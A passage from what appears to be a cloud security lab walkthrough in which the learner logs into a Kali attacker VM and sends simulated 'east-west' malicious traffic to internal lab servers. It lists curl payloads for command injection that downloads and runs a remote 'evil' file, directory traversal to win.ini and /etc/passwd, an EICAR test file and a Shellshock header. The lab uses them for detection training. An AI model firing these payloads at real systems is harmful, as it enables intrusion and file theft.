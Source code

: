 


### 3b. Launch East-West Threat

1. Copy and paste the **Attacker VM Login** output into Cloud Shell. **Password**: `kali`

    <img src="images/attacker_login.png" alt="attacker_login.png"  width="700" />

2. On the Attacker VM, `curl` the Jenkins server. We will view this traffic later in section **3c**.

    ```
    curl http://192.168.11.4:8080
    ```

3. Run the following `curl` requests to simulate malicious traffic.
   
    ```
    curl "http://192.168.11.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
    curl http://192.168.11.20/?item=../../../../WINNT/win.ini
    curl http://192.168.11.20/eicar.file
    curl http://192.168.11.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
    curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
    ```
